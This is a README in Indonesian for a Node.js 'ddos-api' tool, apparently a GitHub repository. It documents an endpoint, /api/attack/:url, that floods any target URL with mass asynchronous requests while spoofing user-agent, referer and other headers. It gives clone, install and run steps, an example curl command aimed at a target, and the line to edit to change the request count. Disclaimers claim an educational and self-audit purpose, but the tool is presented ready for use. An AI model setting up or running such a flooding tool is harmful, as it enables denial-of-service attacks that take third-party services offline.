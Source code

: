 ![Foto](https://files.catbox.moe/n1onoz.jpg)

### Penjelasan 
ini adalah script node.js berbasis express + axios yang digunakan untuk keperluan edukasi dan riset keamanan jaringan, khususnya dalam melakukan simulasi traffic request secara masif melalui endpoint API.

> hanya untuk pembelajaran, testing, dan audit sistem sendiri. dilarang keras disalahgunakan!

---

### Fitur
- di jalan kan via API: `GET /api/attack/:url`
- random user-agent, referer, encoding, dll.
- built-in header spoof
- multi request async otomatis
- tanpa tools tambahan

---

### Instalasi dan jalankan 

1. clone repo:
```bash
git clone https://github.com/HanX-ID/ddos-api
cd ddos-api
```
2. install module:
```
npm install
```
3. jalankan:
```
npm start
# atau
node index.js
```

---

### Cara melakukan request attack

akses lewat browser atau curl:
```
http://localhost:8080/api/attack/https://target.com
```
contoh:
```
curl "http://localhost:8080/api/attack/https://example.com"
```

---

### Custom Request 

ubah jumlah request, edit di index.js:
```javascript
if (i >= 2000) clearInterval(interval);
```
---

#### Disclaimer!

> script ini disediakan untuk pembelajaran, pengujian sistem sendiri, dan auditing. saya tidak bertanggung jawab atas penyalahgunaan pengguna.

****Author**** [HanX](https://github.com/HanX-ID)
